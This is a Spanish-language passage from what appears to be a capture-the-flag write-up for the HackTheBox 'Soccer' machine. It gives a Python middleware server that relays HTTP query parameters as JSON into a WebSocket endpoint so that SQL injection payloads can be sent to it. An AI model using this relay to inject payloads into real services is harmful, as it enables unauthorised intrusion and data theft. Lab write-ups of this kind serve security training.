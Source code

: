 Siguiendo los pasos del blog se nos quedará un codigo así, solo tendriamos que cambiar "ws_server = " y "data = data = '{"id":"%s"}' % message

```python
from http.server import SimpleHTTPRequestHandler
from socketserver import TCPServer
from urllib.parse import unquote, urlparse
from websocket import create_connection
ws_server = "ws://soc-player.soccer.htb:9091/ws"
def send_ws(payload):
	ws = create_connection(ws_server)
	# If the server returns a response on connect, use below line	
	#resp = ws.recv() # If server returns something like a token on connect you can find and extract from here
	
	# For our case, format the payload in JSON
	message = unquote(payload).replace('"','\'') # replacing " with ' to avoid breaking JSON structure
	data = '{"id":"%s"}' % message
	ws.send(data)
	resp = ws.recv()
	ws.close()
	if resp:
		return resp
	else:
		return ''
def middleware_server(host_port,content_type="text/plain"):
	class CustomHandler(SimpleHTTPRequestHandler):
		def do_GET(self) -> None:
			self.send_response(200)
			try:
				payload = urlparse(self.path).query.split('=',1)[1]
			except IndexError:
				payload = False
				
			if payload:
				content = send_ws(payload)
			else:
				content = 'No parameters specified!'
			self.send_header("Content-type", content_type)
			self.end_headers()
			self.wfile.write(content.encode())
			return
	class _TCPServer(TCPServer):
		allow_reuse_address = True
	httpd = _TCPServer(host_port, CustomHandler)
	httpd.serve_forever()
print("[+] Starting MiddleWare Server")
print("[+] Send payloads in http://localhost:8081/?id=*")
try:
	middleware_server(('0.0.0.0',8081))
except KeyboardInterrupt:
	pass
```
